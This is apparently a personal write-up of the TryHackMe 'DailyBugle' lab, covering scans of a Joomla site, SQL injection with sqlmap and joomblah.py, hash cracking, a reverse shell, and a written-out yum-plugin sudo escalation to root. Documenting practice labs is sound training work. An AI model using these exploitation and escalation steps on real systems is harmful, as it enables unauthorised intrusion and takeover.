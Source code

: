 ```yaml
---
title: DailyBugle-writeup-THM
date: 2024-01-01 10:00:00
categories: [room, hard]
tags: [joomla]     # TAG names should always be lowercase
image: https://raw.githubusercontent.com/Blueaulo/DailyBugle-writeup-THM/main/99236161-baab-4e1e-8659-b58dbee818de_Export-bd191e58-92d7-4a75-b58b-142788c8928f/Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled.png
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/dailybugle">DailyBugle</a>"

The first thing that we are going to do is a nmap scan:

```bash
sudo nmap -A 10.10.62.253                     

Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-30 10:48 EST
Nmap scan report for 10.10.62.253
Host is up (0.063s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

This is our output, we see that there are 3 ports open, 

- ssh(useless for now)
- http
- 3306, which is used by MariaDB

The first thing that I am going to do is exploring the web page

![Untitled](https://raw.githubusercontent.com/Blueaulo/DailyBugle-writeup-THM/main/99236161-baab-4e1e-8659-b58dbee818de_Export-bd191e58-92d7-4a75-b58b-142788c8928f/Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled.png)

After trying some thing, I cam accross the robots.txt directory:

```bash
# If the Joomla site is installed within a folder 
# eg www.example.com/joomla/ then the robots.txt file 
# MUST be moved to the site root 
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/orig.html
#
# For syntax checking, see:
# http://tool.motoricerca.info/robots-checker.phtml

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

This is the output.

For now I am going to ignore it.

Now I just started sqlmap with the request that I captured from the login form:

```bash
└─$ sqlmap -r Desktop/response.txt --dbms=mariadb --dump --threads=5
```

And then I ran ffuf for directory enumeration:

```bash
ffuf -u http://10.10.62.253/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.62.253/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 211, Words: 15, Lines: 9, Duration: 5237ms]
.htaccess               [Status: 403, Size: 211, Words: 15, Lines: 9, Duration: 5361ms]
administrator           [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 80ms]
bin                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 79ms]
cache                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 80ms]
cgi-bin/                [Status: 403, Size: 210, Words: 15, Lines: 9, Duration: 80ms]
cli                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 82ms]
components              [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 94ms]
images                  [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 76ms]
includes                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 79ms]
language                [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 80ms]
layouts                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 80ms]
libraries               [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 77ms]
media                   [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 79ms]
modules                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 80ms]
plugins                 [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 79ms]
robots.txt              [Status: 200, Size: 836, Words: 88, Lines: 33, Duration: 80ms]
templates               [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 71ms]
tmp                     [Status: 301, Size: 232, Words: 14, Lines: 8, Duration: 80ms]
:: Progress: [20469/20469] :: Job [1/1] :: 265 req/sec :: Duration: [0:00:51] :: Errors: 0 ::
```

Ok, now that I have more informations, I can visit the administrator page:

![Untitled](https://raw.githubusercontent.com/Blueaulo/DailyBugle-writeup-THM/main/99236161-baab-4e1e-8659-b58dbee818de_Export-bd191e58-92d7-4a75-b58b-142788c8928f/Daily%20Bugle%20f7664d233b7c4054a261e00462332c48/Untitled%201.png)

Nice, we have the jomla login panel.

Now we can run OWASP joomscan, and find the version.

After that I searched for an exploit, and found this python script:

```bash
python3 joomblah.py http://10.10.62.253

                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: <redacted>
  -  Extracting users from <redacted>
 [$] Found user ['<redacted>']
  -  Extracting sessions from <redacted>
```

After finding the hash of Jonah, I just went to hashidentifier and cracked it.

Now for creating a reverse shell I found this Article online: https://www.hackingarticles.in/joomla-reverse-shell/

I followed and I got a rev shell.

I upgraded the shell using:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```

And found the jjameson’s password inside linpeas.

Now we need to become root.

I used sudo -l  to list all the privileges:

```bash
sudo -l

Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

And then went to gtfobins and used this for a root shell:

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```